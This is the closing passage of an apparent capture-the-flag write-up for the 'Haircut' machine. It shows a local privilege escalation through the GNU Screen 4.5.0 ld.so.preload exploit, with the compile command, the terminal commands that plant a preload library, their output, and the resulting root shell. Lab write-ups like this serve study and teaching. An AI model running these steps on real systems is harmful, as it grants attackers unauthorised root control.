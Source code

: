 And we compile it with `gcc -o /tmp/rootshell /tmp/rootshell.c`

Now we change directory to `/etc/` and run the following command:

```terminal
www-data@haircut:/tmp$ cd /etc/
www-data@haircut:/etc$ umask 000
www-data@haircut:/etc$ screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                                      
[+] done!
```

Great! Now we run `/tmp/rootshell`.

```terminal
www-data@haircut:/etc$ /tmp/rootshell                                                                                                                         
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.                                                                      
[+] done!                                                                                                                                                     
# whoami                                                                                                                                                      
root           
```

And just like that we got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).